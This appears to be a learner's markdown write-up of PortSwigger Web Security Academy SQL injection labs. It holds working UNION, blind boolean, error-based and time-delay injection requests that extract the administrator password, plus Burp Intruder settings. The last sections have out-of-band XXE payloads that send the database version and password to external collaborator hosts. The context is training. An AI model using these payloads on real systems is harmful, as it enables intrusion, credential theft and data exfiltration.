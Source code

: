 # SQL Injection Labs

## SQL injection attack, listing the database contents on Oracle

Note: Oracle requires a `FROM` clause in all `SELECT` statements. We can use the
built-in `dual` table for that.

```
GET /filter?category='+UNION+SELECT+NULL,'a'+from+dual-- HTTP/2

GET /filter?category='+UNION+SELECT+NULL,table_name+FROM+all_tables-- HTTP/2
<tr>
  <td>USERS_KMHLSB</td>
</tr>

GET /filter?category='+UNION+SELECT+NULL,column_name+FROM+all_tab_columns+WHERE+table_name+=+'USERS_KMHLSB'-- HTTP/2
PASSWORD_TLPSHT
USERNAME_ZZFDXD


GET /filter?category='+UNION+SELECT+NULL,PASSWORD_TLPSHT+||+':'+||+USERNAME_ZZFDXD+FROM+USERS_KMHLSB-- HTTP/2
93w4qoy3clpolrawivuk:wiener
weq2qre17hvdxek7a4sv:carlos
zu913q61aqwqtdyrv2xo:administrator
```

## Blind SQL injection with conditional responses

```
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check if execution happens
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND '3'='3; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Check fist letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) <= 'm session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# First match
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 1) = 'f; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Second Letter
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 2, 1) = 'a; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e

# Third
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 3, 1) = '5; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5eA

# Final 
GET /filter?category=Toys+%26+Games HTTP/2
Host: 0adf004e04ea2a9c854a78ad00360047.web-security-academy.net
Cookie: TrackingId=cQvDEyZPW0ZMMZVx' AND SUBSTRING((SELECT password FROM Users WHERE Username = 'administrator'), 1, 20) = 'fa55g4p06ue320533fus; session=FnfWrUq2pwOxFm0Wrq4nyRmD9IkjPP5e
```

This could have been done way more efficiently by using the intruder feature of
BurpSuite.

## Blind SQL injection with conditional errors

Note: This is an Oracle DB

```
GET /filter?category=Corporate+gifts HTTP/2
Host: 0a2b00be04275c2f81ddd9e7002d006b.web-security-academy.net
Cookie: TrackingId=oheSoImFDflJjeUv'; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Initial Oracle test (returns result)
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Crashes app
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM dual )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI


# First Conditional test againt user table
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (password < 'm') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a;

# Check PW Length
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (LENGTH(password) = 20) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# PW Fist letter check
Cookie: TrackingId=oheSoImFDflJjeUv' AND ( SELECT CASE WHEN (SUBSTR(password,1,1) = 'b') THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator' )='a; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI

# Intruder
Cookie: TrackingId=chiqiq7pXIgBPi6T'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=bGijkv5bYunQaUdT99YzOKk4V8XiyK8m
```

In Intruder:

- Switch to clusterbomb attack type
  - set first payload to number from 1-20 with increment 1
  - set second payload to `a-z` and `0-9`
- In results: filter for 500 status
- Sort by `payload 1`

![results-blind-oracle](images/results-blind-oracle.png)

## Blind SQL injection with time delays

```
# Initial Request
GET / HTTP/2
Host: 0a90000004d38cd582d738de00420061.web-security-academy.net
Cookie: TrackingId=JjlpMTlWKJlheKxz; session=dZKT5XYtz3AaPgvoqAwIeiJnN7HBISHL

# Working example using string concatenation
Cookie: TrackingId=oheSoImFDflJjeUv'|| pg_sleep(10) --; session=qaT8PeyYuUen0cJhD21OqceEDQF4JFFI
```

The SQL query on the srv might look like this

``` sql
SELECT userid FROM tracking where id='${trackingId}'
```

## Blind SQL injection with time delays and information retrieval

```
# Initial Request
GET / HTTP/2
Host: 0a6700fe046f338e812f434f00f40045.web-security-academy.net
Cookie: TrackingId=f3a7cn7ioKyEbnQz; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Initial check for execution (works)
Cookie: TrackingId=f3a7cn7ioKyEbnQz'|| pg_sleep(3) --; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# First Condition: Remeber we are already in a select statement
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || CASE WHEN ('1'='1') THEN pg_sleep(3) ELSE pg_sleep(0) END--; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Our first actual succefull data retrevial Request
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN LENGTH(password) < 30 
THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE 
username='administrator')-- ; 

# PW Length is 20
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN LENGTH(password) = 20 THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users WHERE username='administrator')-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn


# Test of PW char 1 1
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN (substring(password,1,1) > 'a') THEN pg_sleep(7) ELSE pg_sleep(0) END FROM users WHERE username='administrator' limit 1)-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn

# Intruder
Cookie: TrackingId=f3a7cn7ioKyEbnQz' || (SELECT CASE WHEN substring(password,§1§,1) = '§a§' THEN pg_sleep(7) ELSE pg_sleep(0) END FROM users WHERE username='administrator' limit 1)-- ; session=JzTLeEfQgPeATLOCBhW6lAOT2BSVYcyn
```

Intruder Settings:  

- cluster bomb
  - 1. pos = number 1-20
  - 2. pos = `a-z`, `0-9`
- set max concurrent connections to 10

In results:

- show `Response received`, which is the response time.
- Sort by that and read PW

![blind-timing-data](images/blind-timing-data.png)

## Blind SQL injection with out-of-band interaction

solved using an example payload from the portswigger cheat sheet:

The collaborator is required for this lab.

```
GET /filter?category=Corporate+gifts HTTP/2
Host: 0af10097048bf8a8804249eb0030001b.web-security-academy.net
Cookie: TrackingId=x'<@burp_urlencode> UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://fcvrlzgdef8raqxl9sb1z57cl3rufs3h.oastify.com/"> %remote;]>'),'/l') FROM dual--<@/burp_urlencode>; session=fYmRUjWseYGxLjuGbHjBA7OOs4mvB3y9
```

## Blind SQL injection with out-of-band data exfiltration

```
x'<@burp_urlencode> UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT version FROM v$instance)||'.li7xr5mjklexgw3rfyh75bdir9x0lrbf0.oastify.com/"> %remote;]>'),'/l') FROM dual--

TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+version+FROM+v$instance)||'.li7xr5mjklexgw3rfyh75bdir9x0lrbf0.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--

```



